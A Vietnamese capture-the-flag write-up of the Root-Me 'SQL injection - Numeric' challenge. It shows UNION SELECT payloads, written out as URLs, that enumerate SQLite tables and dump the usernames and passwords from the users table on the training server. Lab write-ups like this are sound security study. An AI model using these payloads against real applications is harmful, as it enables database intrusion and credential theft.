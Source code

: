 # [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

<img src="./media/image1.png" style="width:6.5in;height:1.55208in" alt="Shape Description automatically generated with low confidence" />

Thử bypass qua login thì không thể thực hiện được.

<img src="./media/image2.png" style="width:6.5in;height:1.70278in" alt="Shape Description automatically generated with medium confidence" />

Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến **action=news&news\_id=\[x\].** Thử xóa id của news thì phát hiện database bị lỗi:

<img src="./media/image3.png" style="width:6.5in;height:2.35903in" alt="Graphical user interface, text, application Description automatically generated" />

Database của server là SQLite3. Tương tự bài SQL Injection – String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:

<img src="./media/image4.png" style="width:6.5in;height:1.77778in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,1 from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,1%20from%20sqlite_master)

Ta dò được có 2 bảng users và news:

<img src="./media/image5.png" style="width:6.5in;height:1.88889in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,name from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,name%20from%20sqlite_master)

Tương tự bài String, ta show ra được username và password của users:

<img src="./media/image6.png" style="width:6.5in;height:2.3in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,username,password from users](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,username,password%20from%20users)

Login vào thành công:

<img src="./media/image7.png" style="width:6.5in;height:1.95764in" alt="Graphical user interface, text, application Description automatically generated" />

- Flag: "****************************"
